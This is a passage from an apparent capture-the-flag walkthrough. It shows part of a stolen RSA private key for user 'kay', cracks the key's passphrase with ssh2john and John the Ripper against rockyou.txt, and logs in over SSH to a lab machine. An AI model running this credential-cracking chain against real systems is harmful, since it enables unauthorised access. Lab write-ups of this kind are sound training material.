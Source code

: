 ```bash
AGIExXRIJXlwF4G0bsl5vbydM55XlnBRyof62ucYS9ecrAr4NGMggcXfYYncxMyK
AXDKwSwwwf/yHEwX8ggTESv5Ad+BxdeMoiAk8c1Yy1tzwdaMZSnOSyHXuVlB4Jn5
phQL3R8OrZETsuXxfDVKrPeaOKEE1vhEVZQXVSOHGCuiDYkCA6al6WYdI9i2+uNR
ogjvVVBVVZIBH+w5YJhYtrInQ7DMqAyX1YB2pmC+leRgF3yrP9a2kLAaDk9dBQcV
ev6cTcfzhBhyVqml1WqwDUZtROTwfl80jo8QDlq+HE0bvCB/o2FxQKYEtgfH4/UC
D5qrsHAK15DnhH4IXrIkPlA799CXrhWi7mF5Ji41F3O7iAEjwKh6Q/YjgPvgj8LG
OsCP/iugxt7u+91J7qov/RBTrO7GeyX5Lc/SW1j6T6sjKEga8m9fS10h4TErePkT
t/CCVLBkM22Ewao8glguHN5VtaNH0mTLnpjfNLVJCDHl0hKzi3zZmdrxhql+/WJQ
4eaCAHk1hUL3eseN3ZpQWRnDGAAPxH+LgPyE8Sz1it8aPuP8gZABUFjBbEFMwNYB
e5ofsDLuIOhCVzsw/DIUrF+4liQ3R36Bu2R5+kmPFIkkeW1tYWIY7CpfoJSd74VC
3Jt1/ZW3XCb76R75sG5h6Q4N8gu5c/M0cdq16H9MHwpdin9OZTqO2zNxFvpuXthY
-----END RSA PRIVATE KEY-----
```

We got the private key of user kay. This will be our access vector. Let us log in through ssh now.

We can use John the Ripper to crack an SSH RSA key, but to brute-force using john, we must convert it into a suitable format first. For this, we have ssh2john.py pre-installed in Kali Linux.

Save the RSA key as a file named `id_rsa`.

```bash
┌──(root㉿neo)-[~]
└─# python /usr/share/john/ssh2john.py id_rsa > rsa.txt
```

Now we can use John the Ripper to crack the hash using the same wordlist rockyou.txt and retrieve the passphrase for user kay.

```bash
┌──(root㉿neo)-[~]
└─# john rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=ssh

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2024-06-22 16:46) 20.00g/s 1655Kp/s 1655Kc/s 1655KC/s bird..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Finally, we got the passphrase beeswax.

As we know from a previous search that `.ssh` also has read and write permissions for user kay. As we have the passphrase now, let us ssh:
                                                                                                                                                                      
```bash                
┌──(root㉿neo)-[~]
└─# chmod 600 id_rsa
```

```bash
┌──(root㉿neo)-[~]
└─# ssh -i id_rsa kay@10.10.125.210

Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

```